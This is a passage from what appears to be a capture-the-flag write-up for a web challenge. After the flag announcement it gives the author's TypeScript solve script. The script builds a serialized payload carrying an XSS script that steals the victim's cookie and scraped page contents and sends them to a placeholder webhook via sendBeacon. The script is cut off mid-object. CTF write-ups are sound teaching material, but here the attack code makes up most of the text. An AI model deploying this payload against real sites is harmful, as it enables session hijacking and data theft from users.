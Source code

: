 	<i>insert anxious refreshing as the queue takes its sweet 30 seconds</i>
</center>

And with just eight minutes to spare:
![486354395f9cee1c84f5ea0bf2700af4.png](/assets/posts/veggiesoda/1ac60a6adba04d138f0dc209269e88ab.png)

We have a flag!

### The Solve Script

```ts
// payload-gen.ts version 3
import { Serializer } from "https://deno.land/x/superserial/mod.ts";
import Post from './Post.ts';
import Log from './Log.ts';
import Soda from './Soda.ts';
import Vio from './Vio.ts';
import Warning from './Warning.ts';

const serializer = new Serializer({ classes: {Post, Log, Vio, Soda, Warning} });
const UUID = "e3586424-e765-49c4-8556-57377aed08f3";

const note = `
<script>
    let ROOT = "https://vegsoda-web.2023.ctfcompetition.com/";
    let load = (i, s) => { i.src = s; return new Promise(r => i.onload = () => { i.onload = null; r(i.contentWindow.document.body.innerHTML) }) };
    let yoink = (s) => navigator.sendBeacon("[webhook]?q=" + encodeURIComponent(JSON.stringify(s)));
    yoink("payload deployed!");
    yoink(document.cookie);
    (async () => {  
        let i = document.createElement("iframe");
        document.body.appendChild(i);
        let profile = await load(i, ROOT + "profile");
        let posts = profile.match(/(?<=<li><a class="sodalink" href="\\/post\\/).*?(?=">)/gm);
        let sodas = profile.match(/(?<=<li><a class="sodalink" href="\\/sodas\\/).*?(?=">)/gm);
        yoink([posts, sodas]);
        for (let p of posts) {
            yoink((await load(i, \`\${ROOT}post/\${p}\`)).match(/(?<=<h2 class="page-section-heading text-center text-uppercase text-secondary mb-0">).*?(?=<\\/h2>)/gm));
        }
        for (let s of sodas) {
            yoink((await load(i, \`\${ROOT}sodas/\${s}\`)).match(/(?<=<p class="masthead-subheading font-weight-light mb-0">).*?(?=<\\/p>)/gm));
        }
        yoink(await load(i, "https://vegsoda-web.2023.ctfcompetition.com/status"));
    })()
</script>
`

let stopYouViolatedTheLaw = {
    id: UUID,
    userid: "arcblroth",
    level: "XSS",
    warning: Soda.getSoda(
        "Carrot", // rabbits unite!
        "admin",
```
